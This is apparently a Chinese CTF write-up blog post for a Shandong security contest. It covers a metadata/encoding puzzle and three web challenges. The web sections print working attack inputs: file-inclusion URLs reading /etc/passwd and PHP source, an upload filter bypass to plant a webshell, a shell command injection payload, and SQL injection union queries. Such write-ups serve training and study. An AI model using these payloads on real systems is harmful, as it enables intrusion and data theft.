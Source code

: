 ```yaml
---
layout: post
title: 山东新一代信息技术创新应用大赛—信息安全攻防赛项WriteUp
---
```


> 主办方服务器一直很卡，导致比赛体验不是很好，希望下次能换个高配置的服务器 :)

# Misc

## 可爱的喵喵

右键属性->细节->镜头制造商

![image-20201119223004616](https://tva1.sinaimg.cn/large/0081Kckwly1gkuur246qpj30w20sc4dv.jpg)

得到

`4D5A5747435A33334D563447535A53374E425557495A44464E5A50574D3342554D3536513D3D3D3D`

hex解密 -> base32解密 ->flag

![image-20201119223232642](https://tva1.sinaimg.cn/large/0081Kckwly1gkuutibz60j30je0bu3ze.jpg)

# Web

## web1

打开题目链接，发现只有一个Apache2的默认页面，dirsearch扫一下web目录，看看有没有什么敏感文件

![image-20201119114703077](https://tva1.sinaimg.cn/large/0081Kckwly1gkuc5xri43j311r0u0tmc.jpg)

```bash
python3 dirsearch.py -u http://47.105.128.249:35001/
```

![image-20201119115000878](https://tva1.sinaimg.cn/large/0081Kckwly1gkuc8z1102j31620tq4gi.jpg)

扫描完成后发现 `edit.php f.php upload.php`很可疑

访问http://47.105.128.249:35001/f.php?f=index.html

![image-20201119115639459](https://tva1.sinaimg.cn/large/0081Kckwly1gkucfw0j1cj31cf0u0dph.jpg)

发现成功包含文件，目测存在任意文件包含+读取，于是尝试读取/etc/passwd

经测试发现未开启远程包含

这里使用file协议读取

http://47.105.128.249:35001/f.php?f=file:///etc/passwd

![image-20201119120407487](https://tva1.sinaimg.cn/large/0081Kckwly1gkucnmzokjj30sq0cqn0h.jpg)

再利用PHP伪协议读取upload.php源代码审计一波

http://47.105.128.249:35001/f.php?f=php://filter/read=convert.base64-encode/resource=upload.php

upload.php

```php
<?php
$res = [];
if ($_POST["filename"] == '') {
    $res['state'] = false;
    $res['info'] = "请上传txt格式文件";
    echo json_encode($res);
    exit();
} else {
    $file_name = $_POST['filename'];
    $file_ext = strrchr($file_name, '.');
    if($file_ext == '.php'){
        $res['state']=false;
    	$res['info']="文件名非法！";
    	echo json_encode($res);
    	exit();
    }
    $file_name = preg_replace("/[^a-zA-Z0-9.]+/","",$file_name);
    if($file_name === "") {
    	$res['state']=false;
    	$res['info']="要传好好传，别搞啊";
    	echo json_encode($res);
    	exit();
    }
    $file_path = './Uploads/'.$file_name;
    $fileContent = $_POST['filecontent'];

    if(strpos($fileContent,'eval')){
        $res['info']="检测到恶意代码，禁止上传！";
        echo json_encode($res);
        exit();
    }
    
    if(strpos($fileContent,'assert')){
        $res['info']="检测到恶意代码，禁止上传！";
        echo json_encode($res);
        exit();
    }
  
    $a = explode('.', $_POST['filename']);
    $ext = $a[count($a)-1];
    if (strtolower($ext)=='php') {
        file_put_contents($file_path, $fileContent);
    }
    else {
        file_put_contents($file_path, $fileContent);
    }
    $res['state'] = true;
    $res['info'] = '文件保存至'.$file_path;
    echo json_encode($res);
    exit();
}
```

发现只过滤了php后缀，可以直接利用php3绕过上传webshell

但奇怪的是前端并没有找到上传表单，索性看了下upload.js

![image-20201119223913843](https://tva1.sinaimg.cn/large/0081Kckwly1gkuv0hetvkj30uo0rkte4.jpg)

```javascript
$(function () {
    $("#submit").on("click", function () {
        var fileName = $('#file_name').val();
        var fileContent = $('#file_content').val();
        $.ajax({
            url: "/upload.php",
            method: "POST",
            data: {filename: fileName, filecontent: fileContent},
            success:function (data, status) {
                result = JSON.parse(data);
                var notice = $('<div class="alert m-5" role="alert">' + result["info"] + '</div>');
                if (result["state"]) {
                    notice.addClass("alert-success");
                } else
                    notice.addClass("alert-danger");
                if ($('div.alert')) {
                    $('div.alert').remove();
                }
                $('form.m-5').before(notice);
            }
        });
    });
    }
);
```

![image-20201119123808460](https://tva1.sinaimg.cn/large/0081Kckwly1gkudn34i4bj30ze0aggne.jpg)

发现定义了上传过程，需要POST传参filename 和 filecontent，简单构造一下请求包

这里我们就不上传shell了，换用php文件包含

![image-20201119130524566](https://tva1.sinaimg.cn/large/0081Kckwly1gkueff7y5kj31eg0u0h1p.jpg)

换成小马重新上传，蚁剑连接

![image-20201119130858625](https://tva1.sinaimg.cn/large/0081Kckwly1gkuej7cwwlj316m0u0tai.jpg)

​	`flag{3676a83707feca6c9da2a058582d7191}`

> 其实web1有很多解法，下面来说一说其他的解法
>
> 1）构造上传包->上传txt（内容为一句话马）->f.php本地文件包含->getshell->get flag
>
> 2）利用php伪协议读源码 http://47.105.128.249:35001/f.php?f=php://filter/read=convert.base64-encode/resource=upload.php然后审计上传函数，构造上传包上传php3后缀的马->get flag

## web2

php任意代码执行无过滤

![image-20201119224047154](https://tva1.sinaimg.cn/large/0081Kckwly1gkuv22wpp4j30mc0b675y.jpg)

构造payload

`http://47.105.128.249:35002/?target=127.0.0.1 |cat /f*`

`flag{40e9a8e44ed6216f6455147d354c8276}`



# web3

![image-20201119225348834](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvfn1dfbj30cw098wep.jpg)

![image-20201119225136950](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvdd4x2pj31180a4tel.jpg)

发现有注册和登录 并且注册之后登录会显示出同年龄的人 猜测后台sql语句为：

`select * from where age='100'`

在注册的时候会有insert操作，但是后来测试了发现有转义，由此基本判断为二次注入

![image-20201119225719819](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvjakej9j30ey0bm0tj.jpg)

在年龄处构造payload 使其查询数据并判断字段数量

1' order by 4# //返回正常

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gkuvregvu7j30gc15w781.jpg" alt="image-20201119230506211" style="zoom:50%;" />

1' order by 5# //无返回

![image-20201119230812410](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvulowlbj30gs0ea0u1.jpg)

知道共有4个字段，union select 1,2,3,4 发现页面只回显了2

剩下的依次查询库名，表名，字段名就可以了

```sql
-1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema=0x74657374 -- z#
```

![image-20201119232950246](https://tva1.sinaimg.cn/large/0081Kckwly1gkuwh4ogk8j31m60e0acw.jpg)

```sql
-1' union select 1,fl44g,3,4 from flaaag-- z#
```

![image-20201119233249667](https://tva1.sinaimg.cn/large/0081Kckwly1gkuwk8k2ekj31oq0g0wia.jpg)

# Re

